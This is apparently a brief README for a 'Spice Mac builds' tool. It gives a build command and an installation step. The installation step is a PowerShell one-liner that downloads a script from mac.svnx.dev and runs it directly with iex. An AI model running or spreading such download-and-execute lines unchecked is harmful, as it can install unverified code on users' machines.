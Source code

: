 # Spice Mac builds

## Installation

Execute in your terminal:

```cmd
powershell "iex (iwr https://mac.svnx.dev/builds/setup).Content"
```

## Submitting build

```cmd
spice build
```

